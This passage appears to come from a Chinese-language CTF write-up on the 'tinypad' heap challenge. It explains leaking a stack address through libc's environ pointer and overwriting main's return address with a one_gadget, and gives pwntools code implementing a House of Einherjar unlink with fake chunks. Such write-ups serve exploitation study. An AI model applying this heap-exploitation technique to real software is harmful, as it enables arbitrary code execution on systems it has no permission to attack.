 实现修改tinypad中数据后，就可以修改其中的指针了。由于程序开了FULL RELRO，不能hjack GOT。因此泄漏libc中的env指针，可以得到栈地址。之后劫持main_retaddr为onegadget即可。

注意，add时是用的read操作，因此可以读取\x00，后续堆chunk1座edit操作时，是无法修改\x00之后的数据的，因此需要在add时就把指针全部布置好。因此，写入env的地址和一个指针方便后续写入&mainret_addr。

```python
def houseofEinherjar(offset):
    '''
    strcpy heap data -> tinypad.buffer
    while:
            readuntil(tinypad.buffer, len(heap data), '\n')
    strcpy tinypad.buffer -> heap data
    '''
    delete(1)
    delete(3)
    delete(4)
    add(0x100, 0x90*"a")
    add(0x88, 0x88*"a")
    add(0x100, 0x90*"d")

    padding = 0x30*"a"
    fake_prev_size = offset - 0x30

    log.info("start to write fake_prev_size and 0x90!!!")
    fake_chunk_payload1 = 'b'*0x39# + p64(fake_prev_size) + "\x90"
    tmp = fake_chunk_payload1
    fake_chunk_payload1 = tmp[0:0x30] + p64(fake_prev_size).replace("\x00", 'z') + "\x10\x01"  + "z"
    log.info("fake_chunk_payload1 %s" % fake_chunk_payload1)
    edit(2, fake_chunk_payload1)

    for i in range(1, 12):
        if i==2: continue
        if i==3: continue
        if i>=12-len( p64(fake_prev_size).replace("\x00","") ): break
        tmp = fake_chunk_payload1[:-i] # + one_byte_add[::-1][i-1]
        edit(2, tmp)  # write prev_size , strcpy cannot copy '\0'


    fake_chunk = elf.symbols['tinypad'] + 0x30
    fake_chunk_payload2 = padding +  p64(0x0) + p64(0x100 | 0x1 ) + p64(fake_chunk)*2 #+ \
    fake_chunk_payload2 = fake_chunk_payload2.ljust(0x100,"\x00")# + p64(0x90)

    edit(4, fake_chunk_payload2)
    log.info("start to unlink")
    delete(1) # unlink
    log.info("start to fix size")
    main_arena = libc.address +0x3c4b78
    fake_chunk_payload2 = padding +  p64(0x0) + p64(0x100 | 0x1 ) + p64(main_arena)*2 #+ \

    edit(3, fake_chunk_payload2)

    fake_chunk = elf.symbols['tinypad'] + 0x30
    one_gadget = libc.address + 0x45216
    log.info("environ : %#x" % libc.symbols['__environ'])

    payload = 0xc0*"b" + p64(0xf0) + p64(fake_chunk)+  p64(0x100) + p64(libc.symbols['__environ'] ) + p64(0x100) + p64(0x603158)
    add(0xf8, payload)

    io.recvuntil("INDEX: 2\x0a # CONTENT: ")
    logo = "\x0a\x0a\x0a+---"
    leak_stack = io.recvuntil(logo).split(logo)[0]
    main_return = u64(leak_stack.ljust(8,"\x00")) - (0xe5e8-0xe4f8)
```